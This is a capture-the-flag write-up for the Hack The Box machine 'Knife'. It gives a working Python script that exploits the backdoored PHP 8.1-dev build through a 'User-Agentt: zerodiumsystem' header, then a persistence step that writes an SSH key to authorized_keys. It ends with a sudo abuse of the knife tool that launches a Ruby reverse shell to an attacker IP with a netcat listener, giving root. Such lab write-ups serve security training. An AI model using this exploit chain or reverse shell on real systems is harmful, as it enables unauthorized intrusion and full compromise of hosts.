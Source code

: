 ```yaml
---
title: Knife
description: PHP 8.1 dev exploit
date: 04/01/2022
---
```


# Knife HTB

## PHP 8.1-dev exploit :

The **PHP** version used on the server has a backdour, you can exploit it through the **http-header** "User-agentt" (yes with 2 "t") followed by "zerodiumsystem(' your command ')".
Here is the script I made :

```py
import requests

while True:
    cmd = input('$ ')

    r = requests.get(f'http://knif.htb/',headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
        "User-Agentt": "zerodiumsystem('" + cmd + "');"
    })

    res = r.text.split('<!DOCTYPE html>')[0]

    print(res)
```

I used it to echo my **SSH** public key in the `/home/james/.ssh/authorized_keys` file.
Then I connected via ssh as user **james**.

Once connected I tried the usual `sudo -l` command and got a promissing result :

```bash
User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

So I searched online how to execute ruby command with knife, I assumed it was **ruby** because the file stored at `/usr/bin/knife` was written is **ruby**.
I found this command :

```bash
knife exec -E 'ruby command'
```

With that in mind I headed to [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#ruby) and retrieved a ruby reverse shell :

```ruby
exit if fork;c=TCPSocket.new("<IP>","<PORT>");loop{c.gets.chomp!;(exit! if $_=="exit");($_=~/cd (.+)/i?(Dir.chdir($1)):(IO.popen($_,?r){|io|c.print io.read}))rescue c.puts "failed: #{$_}"}
```

Finally I started a netcat on my machine to catch the connection from the reverse-shell, in the end it looked like this :

1.  on my machine

```bash
nc -lnvp <PORT>
```

2. on knife.htb

```bash
sudo knife exec -E 'exit if fork;c=TCPSocket.new("<IP>","<PORT>");loop{c.gets.chomp!;(exit! if $_=="exit");($_=~/cd (.+)/i?(Dir.chdir($1)):(IO.popen($_,?r){|io|c.print io.read}))rescue c.puts "failed: #{$_}"}'
```

And voila we now have **root** access, for fun I coppied my ssh pubkey again to connect as **root**.

### Thank's for reading :)
